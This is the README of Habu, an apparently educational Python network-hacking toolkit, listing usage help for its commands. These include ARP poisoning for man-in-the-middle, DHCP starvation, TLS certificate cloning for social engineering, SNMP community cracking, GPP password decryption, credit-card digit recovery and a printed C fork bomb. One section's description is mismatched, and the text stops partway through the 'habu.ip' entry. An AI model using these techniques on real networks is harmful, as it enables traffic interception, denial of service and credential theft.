 Habu Hacking Toolkit
====================

I'm developing Habu to teach (and learn) some concepts about Python and
Network Hacking.

Some techniques implemented in the current version are:

* ARP Poisoning
* ARP Sniffing
* DHCP Discover
* DHCP Starvation
* Fake FTP Server
* LAND Attack
* SNMP Cracking
* Subdomains Identification
* SSL/TLS Certificate Cloner
* SYN Flooding
* TCP Flags Analysis
* TCP ISN Analysis
* TCP Port Scan
* Username check on social networks
* Virtual Hosts Identification
* Web Techonologies Identification

The development of this software is supported by Securetia SRL (https://www.securetia.com/)

Usage Videos
------------

The following Youtube Playlist has videos that shows the installation
and usage:

https://www.youtube.com/watch?v=rgp9seLLyqE&list=PL4HZnX8VnFXqSvNw7x-bXOn0dgxNdfnVD

Telegram Group
--------------

If you want to discuss some Habu features, possible improvements, etc,
you can use the Habu Telegram Group: https://t.me/python_habu

Issues and pull requests must be sent to github repo:
https://github.com/fportantier/habu

Installation
------------

**Python Package (PyPi):**

Habu is on PyPi, so you can install it directly with pip:

::

    $ pip3 install habu


**Microsoft Windows**:

Install with the pip method.

Get Help
--------

All the commands implement the option '--help', that shows the help,
arguments, options, and default values.

Verbose Mode
------------

Almost all commands implement the verbose mode with the '-v' option.
This can give you some extra info about what habu is doing.

Commands Index
--------------

* `arp.ping <#habuarpping>`_
* `arp.poison <#habuarppoison>`_
* `arp.sniff <#habuarpsniff>`_
* `asydns <#habuasydns>`_
* `b64 <#habub64>`_
* `cert.clone <#habucertclone>`_
* `cert.names <#habucertnames>`_
* `config.del <#habuconfigdel>`_
* `config.set <#habuconfigset>`_
* `config.show <#habuconfigshow>`_
* `contest <#habucontest>`_
* `crack.luhn <#habucrackluhn>`_
* `crack.snmp <#habucracksnmp>`_
* `crtsh <#habucrtsh>`_
* `crypto.fernet <#habucryptofernet>`_
* `crypto.fernet.genkey <#habucryptofernetgenkey>`_
* `crypto.gppref <#habucryptogppref>`_
* `crypto.hasher <#habucryptohasher>`_
* `data.enrich <#habudataenrich>`_
* `data.extract.domain <#habudataextractdomain>`_
* `data.extract.email <#habudataextractemail>`_
* `data.extract.fqdn <#habudataextractfqdn>`_
* `data.extract.ipv4 <#habudataextractipv4>`_
* `data.filter <#habudatafilter>`_
* `data.select <#habudataselect>`_
* `dhcp.discover <#habudhcpdiscover>`_
* `dhcp.starvation <#habudhcpstarvation>`_
* `dns.lookup.forward <#habudnslookupforward>`_
* `dns.lookup.reverse <#habudnslookupreverse>`_
* `eicar <#habueicar>`_
* `file.entropy <#habufileentropy>`_
* `forkbomb <#habuforkbomb>`_
* `fqdn.finder <#habufqdnfinder>`_
* `gateway.find <#habugatewayfind>`_
* `host <#habuhost>`_
* `http.headers <#habuhttpheaders>`_
* `http.options <#habuhttpoptions>`_
* `http.tech <#habuhttptech>`_
* `interfaces <#habuinterfaces>`_
* `ip <#habuip>`_
* `ip2asn <#habuip2asn>`_
* `ip.geolocation <#habuipgeolocation>`_
* `ip.internal <#habuipinternal>`_
* `isn <#habuisn>`_
* `jshell <#habujshell>`_
* `karma <#habukarma>`_
* `karma.bulk <#habukarmabulk>`_
* `land <#habuland>`_
* `nc <#habunc>`_
* `nmap.excluded <#habunmapexcluded>`_
* `nmap.open <#habunmapopen>`_
* `nmap.ports <#habunmapports>`_
* `ping <#habuping>`_
* `protoscan <#habuprotoscan>`_
* `server.ftp <#habuserverftp>`_
* `shodan <#habushodan>`_
* `shodan.query <#habushodanquery>`_
* `synflood <#habusynflood>`_
* `tcpflags <#habutcpflags>`_
* `tcpscan <#habutcpscan>`_
* `traceroute <#habutraceroute>`_
* `usercheck <#habuusercheck>`_
* `version <#habuversion>`_
* `vhosts <#habuvhosts>`_
* `virustotal <#habuvirustotal>`_
* `web.report <#habuwebreport>`_
* `web.screenshot <#habuwebscreenshot>`_
* `whois.domain <#habuwhoisdomain>`_
* `whois.ip <#habuwhoisip>`_
* `xor <#habuxor>`_

habu.arp.ping
-------------

.. code-block::

    Usage: habu.arp.ping [OPTIONS] IP
    
      Send ARP packets to check if a host it's alive in the local network.
    
      Example:
    
      # habu.arp.ping 192.168.0.1
      Ether / ARP is at a4:08:f5:19:17:a4 says 192.168.0.1 / Padding
    
    Options:
      -i TEXT  Interface to use
      -v       Verbose output
      --help   Show this message and exit.
    

habu.arp.poison
---------------

.. code-block::

    Usage: habu.arp.poison [OPTIONS] VICTIM1 VICTIM2
    
      Send ARP 'is-at' packets to each victim, poisoning their ARP tables for
      send the traffic to your system.
    
      Note: If you want a full working Man In The Middle attack, you need to
      enable the packet forwarding on your operating system to act like a
      router. You can do that using:
    
      # echo 1 > /proc/sys/net/ipv4/ip_forward
    
      Example:
    
      # habu.arpoison 192.168.0.1 192.168.0.77
      Ether / ARP is at f4:96:34:e5:ae:1b says 192.168.0.77
      Ether / ARP is at f4:96:34:e5:ae:1b says 192.168.0.70
      Ether / ARP is at f4:96:34:e5:ae:1b says 192.168.0.77
      ...
    
    Options:
      -i TEXT  Interface to use
      -v       Verbose
      --help   Show this message and exit.
    

habu.arp.sniff
--------------

.. code-block::

    Usage: habu.arp.sniff [OPTIONS]
    
      Listen for ARP packets and show information for each device.
    
      Columns: Seconds from last packet | IP | MAC | Vendor
    
      Example:
    
      1   192.168.0.1     a4:08:f5:19:17:a4   Sagemcom Broadband SAS
      7   192.168.0.2     64:bc:0c:33:e5:57   LG Electronics (Mobile Communications)
      2   192.168.0.5     00:c2:c6:30:2c:58   Intel Corporate
      6   192.168.0.7     54:f2:01:db:35:58   Samsung Electronics Co.,Ltd
    
    Options:
      -i TEXT  Interface to use
      --help   Show this message and exit.
    

habu.asydns
-----------

.. code-block::

    Usage: habu.asydns [OPTIONS]
    
      Requests a DNS domain name based on public and private RSA keys using the
      AsyDNS protocol https://github.com/portantier/asydns
    
      Example:
    
      $ habu.asydns -v
      Generating RSA key ...
      Loading RSA key ...
      {
          "ip": "181.31.41.231",
          "name": "07286e90fd6e7e6be61d6a7919967c7cf3bbfb23a36edbc72b6d7c53.a.asydns.org"
      }
    
      $ dig +short 07286e90fd6e7e6be61d6a7919967c7cf3bbfb23a36edbc72b6d7c53.a.asydns.org
      181.31.41.231
    
    Options:
      -u TEXT  API URL
      -g       Force the generation of a new key pair
      -r       Revoke the public key
      -v       Verbose output
      --help   Show this message and exit.
    

habu.b64
--------

.. code-block::

    Usage: habu.b64 [OPTIONS] [F]
    
      Encodes or decode data in base64, just like the command base64.
    
      $ echo awesome | habu.b64
      YXdlc29tZQo=
    
      $ echo YXdlc29tZQo= | habu.b64 -d
      awesome
    
    Options:
      -d      decode instead of encode
      --help  Show this message and exit.
    

habu.cert.clone
---------------

.. code-block::

    Usage: habu.cert.clone [OPTIONS] HOSTNAME PORT KEYFILE CERTFILE
    
      Connect to an SSL/TLS server, get the certificate and generate a
      certificate with the same options and field values.
    
      Note: The generated certificate is invalid, but can be used for social
      engineering attacks
    
      Example:
    
      $ habu.certclone www.google.com 443 /tmp/key.pem /tmp/cert.pem
    
    Options:
      --copy-extensions  Copy certificate extensions (default: False)
      --expired          Generate an expired certificate (default: False)
      -v                 Verbose
      --help             Show this message and exit.
    

habu.cert.names
---------------

.. code-block::

    Usage: habu.cert.names [OPTIONS] [NETWORK]
    
      Connects to each host/port and shows a summary of the certificate names.
    
      The hosts to connect to are taken from two possible options:
    
      1) -i option (stdin by default). A file where each line is a host or
      network 2) An argument that can be a host or network
    
      If you use both methods, the hosts and networks are merged into one list.
    
      Example:
    
      $ habu.cert.names 2.18.60.240/29
      2.18.60.241         443 i.s-microsoft.com microsoft.com privacy.microsoft.com
      2.18.60.242         443 aod-ssl.itunes.apple.com aod.itunes.apple.com aodp-ssl.itunes.apple.com
      2.18.60.243         443 *.mlb.com mlb.com
      2.18.60.244         443 [SSL: TLSV1_ALERT_INTERNAL_ERROR] tlsv1 alert internal error (_ssl.c:1056)
      2.18.60.245         443 cert2-cn-public-ubiservices.ubi.com cert2-cn-public-ws-ubiservices.ubi.com
      2.18.60.246         443 *.blog.sina.com.cn *.dmp.sina.cn
    
      aod.itunes.apple.com aodp-ssl.itunes.apple.com aod-ssl.itunes.apple.com
      *.blog.sina.com.cn cert2-cn-public-ubiservices.ubi.com cert2-cn-public-ws-
      ubiservices.ubi.com *.dmp.sina.cn i.s-microsoft.com microsoft.com
      *.mlb.com mlb.com privacy.microsoft.com
    
    Options:
      -p TEXT      Ports to connect to (comma separated list)
      -i FILENAME  Input file (Default: stdin)
      -t FLOAT     Time to wait for each connection
      -v           Verbose output
      --help       Show this message and exit.
    

habu.config.del
---------------

.. code-block::

    Usage: habu.config.del [OPTIONS] KEY
    
      Delete a KEY from the configuration.
    
      Note: By default, KEY is converted to uppercase.
    
      Example:
    
      $ habu.config.del DNS_SERVER
    
    Options:
      --help  Show this message and exit.
    

habu.config.set
---------------

.. code-block::

    Usage: habu.config.set [OPTIONS] KEY VALUE
    
      Set VALUE to the config KEY.
    
      Note: By default, KEY is converted to uppercase.
    
      Example:
    
      $ habu.config.set DNS_SERVER 8.8.8.8
    
    Options:
      --help  Show this message and exit.
    

habu.config.show
----------------

.. code-block::

    Usage: habu.config.show [OPTIONS]
    
      Show the current config.
    
      Note: By default, the options with 'KEY' in their name are shadowed.
    
      Example:
    
      $ habu.config.show
      {
          "DNS_SERVER": "8.8.8.8",
          "FERNET_KEY": "*************"
      }
    
    Options:
      -k, --show-keys   Show also the key values
      --option TEXT...  Write to the config(KEY VALUE)
      --help            Show this message and exit.
    

habu.contest
------------

.. code-block::

    Usage: habu.contest [OPTIONS]
    
      Try to connect to various services and check if can reach them using your
      internet connection.
    
      Example:
    
      $ habu.contest
      IP:    True
      DNS:   True
      FTP:   True
      SSH:   True
      HTTP:  True
      HTTPS: True
    
    Options:
      --help  Show this message and exit.
    

habu.crack.luhn
---------------

.. code-block::

    Usage: habu.crack.luhn [OPTIONS] NUMBER
    
      Having known values for a Luhn validated number, obtain the possible
      unknown numbers.
    
      Numbers that use the Luhn algorithm for validation are Credit Cards, IMEI,
      National Provider Identifier in the United States, Canadian Social
      Insurance Numbers, Israel ID Numbers and Greek Social Security Numbers
      (ΑΜΚΑ).
    
      The '-' characters are ignored.
    
      Define the missing numbers with the 'x' character.
    
      Reference: https://en.wikipedia.org/wiki/Luhn_algorithm
    
      Example:
    
      $ habu.crack.luhn 4509-xxxx-3160-6445
    
    Options:
      --help  Show this message and exit.
    

habu.crack.snmp
---------------

.. code-block::

    Usage: habu.crack.snmp [OPTIONS] IP
    
      Launches snmp-get queries against an IP, and tells you when finds a valid
      community string (is a simple SNMP cracker).
    
      The dictionary used is the distributed with the onesixtyone tool
      https://github.com/trailofbits/onesixtyone
    
      Example:
    
      # habu.crack.snmp 179.125.234.210
      Community found: private
      Community found: public
    
      Note: You can also receive messages like \<UNIVERSAL\> \<class
      'scapy.asn1.asn1.ASN1\_Class\_metaclass'\>, I don't know how to supress
      them for now.
    
    Options:
      -p INTEGER  Port to use
      -c TEXT     Community (default: list of most used)
      -s          Stop after first match
      -v          Verbose
      --help      Show this message and exit.
    

habu.crtsh
----------

.. code-block::

    Usage: habu.crtsh [OPTIONS] DOMAIN
    
      Downloads the certificate transparency logs for a domain and check with
      DNS queries if each subdomain exists.
    
      Uses multithreading to improve the performance of the DNS queries.
    
      Example:
    
      $ sudo habu.crtsh securetia.com
      [
          "karma.securetia.com.",
          "www.securetia.com."
      ]
    
    Options:
      -c      Disable cache
      -n      Disable DNS subdomain validation
      -v      Verbose output
      --help  Show this message and exit.
    

habu.crypto.fernet
------------------

.. code-block::

    Usage: habu.crypto.fernet [OPTIONS]
    
      Fernet cipher.
    
      Uses AES-128-CBC with HMAC
    
      Note: You must use a key to cipher with Fernet.
    
      Use the -k paramenter or set the FERNET_KEY configuration value.
    
      The keys can be generated with the command habu.crypto.fernet.genkey
    
      Reference: https://github.com/fernet/spec/blob/master/Spec.md
    
      Example:
    
      $ "I want to protect this string" | habu.crypto.fernet
      gAAAAABbXnCGoCULLuVNRElYTbEcwnek9iq5jBKq9JAN3wiiBUzPqpUgV5oWvnC6xfIA...
    
      $ echo gAAAAABbXnCGoCULLuVNRElYTbEcwnek9iq5jBKq9JAN3wiiBUzPqpUgV5oWvnC6xfIA... | habu.crypto.fernet -d
      I want to protect this string
    
    Options:
      -k TEXT        Key
      -d             Decrypt instead of encrypt
      --ttl INTEGER  Time To Live for timestamp verification
      -i FILENAME    Input file (default: stdin)
      -o FILENAME    Output file (default: stdout)
      --help         Show this message and exit.
    

habu.crypto.fernet.genkey
-------------------------

.. code-block::

    Usage: habu.crypto.fernet.genkey [OPTIONS]
    
      Generate a new Fernet Key, optionally write it to ~/.habu.json
    
      Example:
    
      $ habu.crypto.fernet.genkey
      xgvWCIvjwe9Uq7NBvwO796iI4dsGD623QOT9GWqnuhg=
    
    Options:
      -w      Write this key to ~/.habu.json
      --help  Show this message and exit.
    

habu.crypto.gppref
------------------

.. code-block::

    Usage: habu.crypto.gppref [OPTIONS] PASSWORD
    
      Decrypt the password of local users added via Windows 2008 Group Policy
      Preferences.
    
      This value is the 'cpassword' attribute embedded in the Groups.xml file,
      stored in the domain controller's Sysvol share.
    
      Example:
    
      # habu.crypto.gppref AzVJmXh/J9KrU5n0czX1uBPLSUjzFE8j7dOltPD8tLk
      testpassword
    
    Options:
      --help  Show this message and exit.
    

habu.crypto.hasher
------------------

.. code-block::

    Usage: habu.crypto.hasher [OPTIONS] [F]
    
      Compute various hashes for the input data, that can be a file or a stream.
    
      Example:
    
      $ habu.crypto.hasher README.rst
      md5          992a833cd162047daaa6a236b8ac15ae README.rst
      ripemd160    0566f9141e65e57cae93e0e3b70d1d8c2ccb0623 README.rst
      sha1         d7dbfd2c5e2828eb22f776550c826e4166526253 README.rst
      sha256       6bb22d927e1b6307ced616821a1877b6cc35e... README.rst
      sha512       8743f3eb12a11cf3edcc16e400fb14d599b4a... README.rst
      whirlpool    96bcc083242e796992c0f3462f330811f9e8c... README.rst
    
      You can also specify which algorithm to use. In such case, the output is
      only the value of the calculated hash:
    
      $ habu.hasher -a md5 README.rst
      992a833cd162047daaa6a236b8ac15ae README.rst
    
    Options:
      -a [md5|sha1|sha256|sha512|ripemd160|whirlpool]
                                      Only this algorithm (Default: all)
      --help                          Show this message and exit.
    

habu.data.enrich
----------------

.. code-block::

    Usage: habu.data.enrich [OPTIONS]
    
      Enrich data adding interesting information.
    
      Example:
    
      $ cat /var/log/auth.log | habu.data.extract.ipv4 | habu.data.enrich
      [
          {
              "asset": "8.8.8.8",
              "family": "IPAddress",
              "asn": "15169",
              "net": "8.8.8.0/24",
              "cc": "US",
              "rir": "ARIN",
              "asname": "GOOGLE - Google LLC, US"
          },
          {
              "asset": "8.8.4.4",
              "family": "IPAddress",
              "asn": "15169",
              "net": "8.8.4.0/24",
              "cc": "US",
              "rir": "ARIN",
              "asname": "GOOGLE - Google LLC, US"
          }
      ]
    
    Options:
      -i FILENAME  Input file (Default: stdin)
      -v           Verbose output
      --help       Show this message and exit.
    

habu.data.extract.domain
------------------------

.. code-block::

    Usage: habu.data.extract.domain [OPTIONS] [INFILE]
    
      Extract valid domains from a file or stdin.
    
      Optionally, check each domain for the presence of NS registers.
    
      Example:
    
      $ cat /var/log/some.log | habu.data.extract.domain -c
      google.com
      ibm.com
      redhat.com
    
    Options:
      -c      Check if domain has NS servers defined
      -v      Verbose output
      -j      JSON output
      --help  Show this message and exit.
    

habu.data.extract.email
-----------------------

.. code-block::

    Usage: habu.data.extract.email [OPTIONS] [INFILE]
    
      Extract email addresses from a file or stdin.
    
      Example:
    
      $ cat /var/log/auth.log | habu.data.extract.email
      john@securetia.com
      raven@acmecorp.net
      nmarks@fimax.com
    
    Options:
      -v      Verbose output
      -j      JSON output
      --help  Show this message and exit.
    

habu.data.extract.fqdn
----------------------

.. code-block::

    Usage: habu.data.extract.fqdn [OPTIONS] [INFILE]
    
      Extract FQDNs (Fully Qualified Domain Names) from a file or stdin.
    
      Example:
    
      $ cat /var/log/some.log | habu.data.extract.fqdn
      www.google.com
      ibm.com
      fileserver.redhat.com
    
    Options:
      -c      Check if hostname resolves
      -v      Verbose output
      -j      JSON output
      --help  Show this message and exit.
    

habu.data.extract.ipv4
----------------------

.. code-block::

    Usage: habu.data.extract.ipv4 [OPTIONS] [INFILE]
    
      Extract IPv4 addresses from a file or stdin.
    
      Example:
    
      $ cat /var/log/auth.log | habu.data.extract.ipv4
      172.217.162.4
      23.52.213.96
      190.210.43.70
    
    Options:
      -j, --json    JSON output
      -u, --unique  Remove duplicates
      -v            Verbose output
      --help        Show this message and exit.
    

habu.data.filter
----------------

.. code-block::

    Usage: habu.data.filter [OPTIONS] FIELD [gt|lt|eq|ne|ge|le|in|contains|defin
                              ed|undefined|true|false] [VALUE]
    
      Filter data based on operators.
    
      Example:
    
      $ cat /var/log/auth.log | habu.data.extract.ipv4 | habu.data.enrich | habu.data.filter cc eq US
      [
          {
              "item": "8.8.8.8",
              "family": "ipv4_address",
              "asn": "15169",
              "net": "8.8.8.0/24",
              "cc": "US",
              "rir": "ARIN",
              "asname": "GOOGLE - Google LLC, US"
          }
      ]
    
    Options:
      -i FILENAME  Input file (Default: stdin)
      -v           Verbose output
      --not        Negate the comparison
      --help       Show this message and exit.
    

habu.data.select
----------------

.. code-block::

    Usage: habu.data.select [OPTIONS] FIELD
    
      Select a field from a JSON input.
    
      Example:
    
      $ cat /var/log/auth.log | habu.data.extract.ipv4 | habu.data.enrich | habu.data.filter cc eq US | habu.data.select asset
      8.8.8.7
      8.8.8.8
      8.8.8.9
    
    Options:
      -i FILENAME  Input file (Default: stdin)
      -v           Verbose output
      --json       JSON output
      --help       Show this message and exit.
    

habu.dhcp.discover
------------------

.. code-block::

    Usage: habu.dhcp.discover [OPTIONS]
    
      Send a DHCP request and show what devices has replied.
    
      Note: Using '-v' you can see all the options (like DNS servers) included
      on the responses.
    
      # habu.dhcp_discover
      Ether / IP / UDP 192.168.0.1:bootps > 192.168.0.5:bootpc / BOOTP / DHCP
    
    Options:
      -i TEXT     Interface to use
      -t INTEGER  Time (seconds) to wait for responses
      -v          Verbose output
      --help      Show this message and exit.
    

habu.dhcp.starvation
--------------------

.. code-block::

    Usage: habu.dhcp.starvation [OPTIONS]
    
      Send multiple DHCP requests from forged MAC addresses to fill the DHCP
      server leases.
    
      When all the available network addresses are assigned, the DHCP server
      don't send responses.
    
      So, some attacks, like DHCP spoofing, can be made.
    
      # habu.dhcp_starvation
      Ether / IP / UDP 192.168.0.1:bootps > 192.168.0.6:bootpc / BOOTP / DHCP
      Ether / IP / UDP 192.168.0.1:bootps > 192.168.0.7:bootpc / BOOTP / DHCP
      Ether / IP / UDP 192.168.0.1:bootps > 192.168.0.8:bootpc / BOOTP / DHCP
    
    Options:
      -i TEXT     Interface to use
      -t INTEGER  Time (seconds) to wait for responses
      -s INTEGER  Time (seconds) between requests
      -v          Verbose output
      --help      Show this message and exit.
    

habu.dns.lookup.forward
-----------------------

.. code-block::

    Usage: habu.dns.lookup.forward [OPTIONS] HOSTNAME
    
      Perform a forward lookup of a given hostname.
    
      Example:
    
      $ habu.dns.lookup.forward google.com
      {
          "ipv4": "172.217.168.46",
          "ipv6": "2a00:1450:400a:802::200e"
      }
    
    Options:
      -v      Verbose output
      --help  Show this message and exit.
    

habu.dns.lookup.reverse
-----------------------

.. code-block::

    Usage: habu.dns.lookup.reverse [OPTIONS] IP_ADDRESS
    
      Perform a reverse lookup of a given IP address.
    
      Example:
    
      $ $ habu.dns.lookup.reverse 8.8.8.8
      {
          "hostname": "google-public-dns-a.google.com"
      }
    
    Options:
      -v      Verbose output
      --help  Show this message and exit.
    

habu.eicar
----------

.. code-block::

    Usage: habu.eicar [OPTIONS]
    
      Print the EICAR test string that can be used to test antimalware engines.
    
      More info: http://www.eicar.org/86-0-Intended-use.html
    
      Example:
    
      $ habu.eicar
      X5O!P%@AP[4\XZP54(P^)7CC)7}$EICAR-STANDARD-ANTIVIRUS-TEST-FILE!$H+H*
    
    Options:
      --help  Show this message and exit.
    

habu.file.entropy
-----------------

.. code-block::

    Usage: habu.file.entropy [OPTIONS]
    
      XOR cipher.
    
      Note: XOR is not a 'secure cipher'. If you need strong crypto you must use
      algorithms like AES. You can use habu.fernet for that.
    
      Example:
    
      $ habu.xor -k mysecretkey -i /bin/ls > xored
      $ habu.xor -k mysecretkey -i xored > uxored
      $ sha1sum /bin/ls uxored
      $ 6fcf930fcee1395a1c95f87dd38413e02deff4bb  /bin/ls
      $ 6fcf930fcee1395a1c95f87dd38413e02deff4bb  uxored
    
    Options:
      -i FILENAME  Input file (default: stdin)
      -o FILENAME  Output file (default: stdout)
      --help       Show this message and exit.
    

habu.forkbomb
-------------

.. code-block::

    Usage: habu.forkbomb [OPTIONS] [bash|batch|c|haskell|perl|php|python|ruby]
    
      A shortcut to remember how to use fork bombs in different languages.
    
      Currently supported: bash, batch, c, haskell, perl, php, python, ruby.
    
      Example:
    
      $ habu.forkbomb c
      #include <unistd.h>
      int main()
      {
          while(1)
          {
              fork();
          }
          return 0;
      }
    
    Options:
      --help  Show this message and exit.
    

habu.fqdn.finder
----------------

.. code-block::

    Usage: habu.fqdn.finder [OPTIONS] [DOMAINS]...
    
      Uses various techniques to obtain valid FQDNs for the specified domains.
    
      1. Try to all FQDNs with DNS zone transfers
      2. Check for Certificate Transparency Logs
      3. Connect to specified ports, obtain SSL certificates and get FQDNs from them
      4. Connect to websites and get FQDNs based on the website links
      5. DNS Brute Force for common names
    
      The results are cleaned to remove FQDNs that does not resolve by DNS
    
      Example:
    
      $ habu.fqdn.finder educacionit.com
      barometrosalarial.educacionit.com
      blog.educacionit.com
      ci.educacionit.com
      educacionit.com
      intranet.educacionit.com
      lecdev.educacionit.com
      lecweb.educacionit.com
      mail.educacionit.com
      plantillas.educacionit.com
      www.educacionit.com
    
    Options:
      -t FLOAT                  Time to wait for each connection
      -v                        Verbose output
      --debug                   Debug output
      --connect / --no-connect  Get from known FQDNs open ports SSL certificates
      --brute / --no-brute      Run DNS brute force against domains
      --links / --no-links      Extract FQDNs from web site links
      --xfr / --no-xfr          Try to do a DNS zone transfer against domains
      --ctlog / --no-ctlog      Try to get FQDNs from Certificate Transparency
                                Logs
    
      --json                    Print the output in JSON format
      --help                    Show this message and exit.
    

habu.gateway.find
-----------------

.. code-block::

    Usage: habu.gateway.find [OPTIONS] NETWORK
    
      Try to reach an external IP using any host has a router.
    
      Useful to find routers in your network.
    
      First, uses arping to detect alive hosts and obtain MAC addresses.
    
      Later, create a network packet and put each MAC address as destination.
    
      Last, print the devices that forwarded correctly the packets.
    
      Example:
    
      # habu.find.gateway 192.168.0.0/24
      192.168.0.1 a4:08:f5:19:17:a4 Sagemcom
      192.168.0.7 b0:98:2b:5d:22:70 Sagemcom
      192.168.0.8 b0:98:2b:5d:1f:e8 Sagemcom
    
    Options:
      -i TEXT                Interface to use
      --host TEXT            Host to reach (default: 8.8.8.8)
      --tcp                  Use TCP instead of ICMP
      --dport INTEGER RANGE  Destination port for TCP (default: 80)
      --timeout INTEGER      Timeout in seconds (default: 5)
      -v                     Verbose output
      --help                 Show this message and exit.
    

habu.host
---------

.. code-block::

    Usage: habu.host [OPTIONS]
    
      Collect information about the host where habu is running.
    
      Example:
    
      $ habu.host
      {
          "kernel": [
              "Linux",
              "demo123",
              "5.0.6-200.fc29.x86_64",
              "#1 SMP Wed Apr 3 15:09:51 UTC 2019",
              "x86_64",
              "x86_64"
          ],
          "distribution": [
              "Fedora",
              "29",
              "Twenty Nine"
          ],
          "libc": [
              "glibc",
              "2.2.5"
          ],
          "arch": "x86_64",
          "python_version": "3.7.3",
          "os_name": "Linux",
          "cpu": "x86_64",
          "static_hostname": "demo123",
          "fqdn": "demo123.lab.sierra"
      }
    
    Options:
      -v      Verbose output.
      --help  Show this message and exit.
    

habu.http.headers
-----------------

.. code-block::

    Usage: habu.http.headers [OPTIONS] SERVER
    
      Retrieve the HTTP headers of a web server.
    
      Example:
    
      $ habu.http.headers http://duckduckgo.com
      {
          "Server": "nginx",
          "Date": "Sun, 14 Apr 2019 00:00:55 GMT",
          "Content-Type": "text/html",
          "Content-Length": "178",
          "Connection": "keep-alive",
          "Location": "https://duckduckgo.com/",
          "X-Frame-Options": "SAMEORIGIN",
          "Content-Security-Policy": "default-src https: blob: data: 'unsafe-inline' 'unsafe-eval'",
          "X-XSS-Protection": "1;mode=block",
          "X-Content-Type-Options": "nosniff",
          "Referrer-Policy": "origin",
          "Expect-CT": "max-age=0",
          "Expires": "Mon, 13 Apr 2020 00:00:55 GMT",
          "Cache-Control": "max-age=31536000"
      }
    
    Options:
      -v      Verbose output
      --help  Show this message and exit.
    

habu.http.options
-----------------

.. code-block::

    Usage: habu.http.options [OPTIONS] SERVER
    
      Retrieve the available HTTP methods of a web server.
    
      Example:
    
      $ habu.http.options -v http://google.com
      {
          "allowed": "GET, HEAD"
      }
    
    Options:
      -v      Verbose output
      --help  Show this message and exit.
    

habu.http.tech
--------------

.. code-block::

    Usage: habu.http.tech [OPTIONS] URL
    
      Uses Wappalyzer apps.json database to identify technologies used on a web
      application.
    
      Reference: https://github.com/AliasIO/Wappalyzer
    
      Note: This tool only sends one request. So, it's stealth and not
      suspicious.
    
      $ habu.web.tech https://woocomerce.com
      Google Tag Manager       unknown
      MySQL                    unknown
      Nginx                    unknown
      PHP                      unknown
      Prototype                unknown
      RequireJS                unknown
      WooCommerce              3.8.0
      WordPress                5.2.4
      Yoast SEO                10.0.1
    
    Options:
      --cache / --no-cache
      --format [txt|csv|json]  Output format
      -v                       Verbose output
      --help                   Show this message and exit.
    

habu.interfaces
---------------

.. code-block::

    Usage: habu.interfaces [OPTIONS]
    
      Show the network interfaces available on the system.
    
      Example:
    
      # habu.interfaces
      #  NAME                            MAC                INET             INET6
      0  eth0                            80:fa:5b:4b:f9:18  None             None
      1  lo                              00:00:00:00:00:00  127.0.0.1        ::1
      2  wlan0                           f4:96:34:e5:ae:1b  192.168.0.6      None
      3  vboxnet0                        0a:00:27:00:00:00  192.168.56.1     fe80::800:27ff:fe00:0
    
    Options:
      -j      Output in JSON format
      --help  Show this message and exit.
    

habu.ip
-------

.. code-block::

    Usage: habu.ip [OPTIONS]
    
